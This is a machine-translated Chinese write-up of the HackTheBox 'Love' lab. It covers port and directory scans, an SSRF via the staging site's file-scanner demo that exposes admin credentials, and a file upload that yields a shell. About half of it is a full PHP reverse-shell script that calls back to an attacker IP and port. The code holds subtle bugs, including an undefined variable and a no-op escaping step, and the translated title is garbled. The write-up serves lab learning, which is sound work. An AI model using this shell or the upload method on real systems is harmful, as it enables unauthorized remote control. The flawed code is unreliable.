








# 爱——HTB |特写，黑客盒子

> 原文：<https://infosecwriteups.com/love-htb-writeup-hackthebox-e48256fc32b6?source=collection_archive---------5----------------------->

## 这是我为 HackTheBox 上的“爱”盒子写的文章



# 侦察

```
Nmap scan report for 10.10.10.239
Not shown: 993 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL: 
|_    Host '10.10.14.27' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=5/2%Time=608E6AD6%P=x86_64-pc-linux-gnu%r(NUL
SF:L,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.27'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h41m35s, deviation: 4h02m30s, median: 21m35s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-02T02:25:08-07:00
| smb-security-mode: 
|   account_used:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-02T09:25:11
|_  start_date: N/A
```

让我们从端口 80 开始:

```
gobuster dir -u http://10.10.10.239 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.239
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/02 04:06:36 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 338] [--> http://10.10.10.239/images/]
/Images               (Status: 301) [Size: 338] [--> http://10.10.10.239/Images/]
/admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/admin/] 
/plugins              (Status: 301) [Size: 339] [--> http://10.10.10.239/plugins/]
/includes             (Status: 301) [Size: 340] [--> http://10.10.10.239/includes/]
/dist                 (Status: 301) [Size: 336] [--> http://10.10.10.239/dist/]    
/licenses             (Status: 403) [Size: 421]                                     
/examples             (Status: 503) [Size: 402]                                     
/IMAGES               (Status: 301) [Size: 338] [--> http://10.10.10.239/IMAGES/]  
/%20                  (Status: 403) [Size: 302]                                     
/Admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/Admin/]   
/*checkout*           (Status: 403) [Size: 302]                                     
/Plugins              (Status: 301) [Size: 339] [--> http://10.10.10.239/Plugins/] 
/phpmyadmin           (Status: 403) [Size: 302]                                     
/webalizer            (Status: 403) [Size: 302]                                     
/*docroot*            (Status: 403) [Size: 302]                                     
/*                    (Status: 403) [Size: 302]                                     
/con                  (Status: 403) [Size: 302]                                     
/http%3A              (Status: 403) [Size: 302]                                     
/Includes             (Status: 301) [Size: 340] [--> http://10.10.10.239/Includes/]
/**http%3a            (Status: 403) [Size: 302]
```

让我们检查一下`/admin`页。页面要求我们没有的`username`和`password`。



让我们检查一下`https`端口 **443** 。



禁止进入

如果我们检查`https`证书，我们会发现一个新的`vhost`。



让我们向/etc/hosts 添加一个新主机

```
10.10.10.239    staging.love.htb
```

现在，我们参观`staging.love.htb`



让我们看看第`Demo`页。



它要求文件的网址。我们将添加端口为 5000 的本地主机 url

访问[**http://127 . 0 . 0 . 1:5000**](http://127.0.0.1:5000)


我们到了

```
admin:@LoveIsInTheAir!!!!
```

我们有管理员证书

现在让我们一起来参观`10.10.10.239/admin`

我们在`votingsystem`管理面板里。



exploit.php:

```
**<?php** class Sh
{
    private $a = null;
    private $p = null;
    private $os = null;
    private $sh = null;
    private $ds = array(
        0 => array(
            'pipe',
            'r'
        ) ,
        1 => array(
            'pipe',
            'w'
        ) ,
        2 => array(
            'pipe',
            'w'
        )
    );
    private $o = array();
    private $b = 1024;
    private $c = 0;
    private $e = false;
    public function __construct($a, $p)
    {
        $this->a = $a;
        $this->p = $p;
        if (stripos(PHP_OS, 'LINUX') !== false)
        {
            $this->os = 'LINUX';
            $this->sh = '/bin/sh';
        }
        else if (stripos(PHP_OS, 'WIN32') !== false || stripos(PHP_OS, 'WINNT') !== false || stripos(PHP_OS, 'WINDOWS') !== false)
        {
            $this->os = 'WINDOWS';
            $this->sh = 'cmd.exe';
            $this->o['bypass_shell'] = true;
        }
        else
        {
            $this->e = true;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
        }
    }
    private function dem()
    {
        $e = false;
        @error_reporting(0);
        @set_time_limit(0);
        if (!function_exists('pcntl_fork'))
        {
            echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";
        }
        else if (($p = @pcntl_fork()) < 0)
        {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";
        }
        else if ($p > 0)
        {
            $e = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";
        }
        else if (posix_setsid() < 0)
        {
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";
        }
        else
        {
            echo "DAEMONIZE: Completed successfully!\n";
        }
        @umask(0);
        return $e;
    }
    private function d($d)
    {
        $d = str_replace('<', '<', $d);
        $d = str_replace('>', '>', $d);
        echo $d;
    }
    private function r($s, $n, $b)
    {
        if (($d = @fread($s, $b)) === false)
        {
            $this->e = true;
            echo "STRM_ERROR: Cannot read from ${n}, script will now exit...\n";
        }
        return $d;
    }
    private function w($s, $n, $d)
    {
        if (($by = @fwrite($s, $d)) === false)
        {
            $this->e = true;
            echo "STRM_ERROR: Cannot write to ${n}, script will now exit...\n";
        }
        return $by;
    }
    private function rw($i, $o, $in, $on)
    {
        while (($d = $this->r($i, $in, $this->b)) && $this->w($o, $on, $d))
        {
            if ($this->os === 'WINDOWS' && $on === 'STDIN')
            {
                $this->c += strlen($d);
            }
            $this->d($d);
        }
    }
    private function brw($i, $o, $in, $on)
    {
        $s = fstat($i) ['size'];
        if ($this->os === 'WINDOWS' && $in === 'STDOUT' && $this->c)
        {
            while ($this->c > 0 && ($by = $this->c >= $this->b ? $this->b : $this->c) && $this->r($i, $in, $by))
            {
                $this->c -= $by;
                $s -= $by;
            }
        }
        while ($s > 0 && ($by = $s >= $this->b ? $this->b : $s) && ($d = $this->r($i, $in, $by)) && $this->w($o, $on, $d))
        {
            $s -= $by;
            $this->d($d);
        }
    }
    public function rn()
    {
        if (!$this->e && !$this->dem())
        {
            $soc = @fsockopen($this->a, $this->p, $en, $es, 30);
            if (!$soc)
            {
                echo "SOC_ERROR: {$en}: {$es}\n";
            }
            else
            {
                stream_set_blocking($soc, false);
                $proc = @proc_open($this->sh, $this->ds, $pps, '/', null, $this->o);
                if (!$proc)
                {
                    echo "PROC_ERROR: Cannot start the shell\n";
                }
                else
                {
                    foreach ($ps as $pp)
                    {
                        stream_set_blocking($pp, false);
                    }
                    @fwrite($soc, "SOCKET: Shell has connected! PID: " . proc_get_status($proc) ['pid'] . "\n");
                    do
                    {
                        if (feof($soc))
                        {
                            echo "SOC_ERROR: Shell connection has been terminated\n";
                            break;
                        }
                        else if (feof($pps[1]) || !proc_get_status($proc) ['running'])
                        {
                            echo "PROC_ERROR: Shell process has been terminated\n";
                            break;
                        }
                        $s = array(
                            'read' => array(
                                $soc,
                                $pps[1],
                                $pps[2]
                            ) ,
                            'write' => null,
                            'except' => null
                        );
                        $ncs = @stream_select($s['read'], $s['write'], $s['except'], null);
                        if ($ncs === false)
                        {
                            echo "STRM_ERROR: stream_select() failed\n";
                            break;
                        }
                        else if ($ncs > 0)
                        {
                            if ($this->os === 'LINUX')
                            {
                                if (in_array($soc, $s['read']))
                                {
                                    $this->rw($soc, $pps[0], 'SOCKET', 'STDIN');
                                }
                                if (in_array($pps[2], $s['read']))
                                {
                                    $this->rw($pps[2], $soc, 'STDERR', 'SOCKET');
                                }
                                if (in_array($pps[1], $s['read']))
                                {
                                    $this->rw($pps[1], $soc, 'STDOUT', 'SOCKET');
                                }
                            }
                            else if ($this->os === 'WINDOWS')
                            {
                                if (in_array($soc, $s['read']))
                                {
                                    $this->rw($soc, $pps[0], 'SOCKET', 'STDIN');
                                }
                                if (fstat($pps[2]) ['size'])
                                {
                                    $this->brw($pps[2], $soc, 'STDERR', 'SOCKET');
                                }
                                if (fstat($pps[1]) ['size'])
                                {
                                    $this->brw($pps[1], $soc, 'STDOUT', 'SOCKET');
                                }
                            }
                        }
                    }
                    while (!$this->e);
                    foreach ($pps as $pp)
                    {
                        fclose($pp);
                    }
                    proc_close($proc);
                }
                fclose($soc);
            }
        }
    }
}
echo '<pre>';
$sh = new Sh('10.10.14.2', 1234);
$sh->rn();
echo '</pre>';
unset($sh); /*@gc_collect_cycles();*/ **?>**
```

不要忘记更改端口和 ip

在端口 1234 上启动 netcat

单击个人资料，然后单击更新

浏览 exploit.php，输入密码=@LoveIsInTheAir！！！！然后单击保存



我们到了

我们得到了 rev 外壳。现在，让我们获取 user.txt

```
Directory of C:\Users\Phoebe\Desktop

05/02/2021  02:26 AM    DIR          .
05/02/2021  02:26 AM    DIR          ..
05/02/2021  12:08 AM           159,744 alwe.msi
05/01/2021  11:34 PM                34 user.txt
05/02/2021  12:05 AM         1,678,336 winpeas.exe
05/02/2021  02:05 AM         1,678,336 winPEASx64.exe
               4 File(s)      3,516,450 bytes
               2 Dir(s)   2,232,578,048 bytes free

type user.txt
a5500******************************

C:\Users\Phoebe\Desktop>
```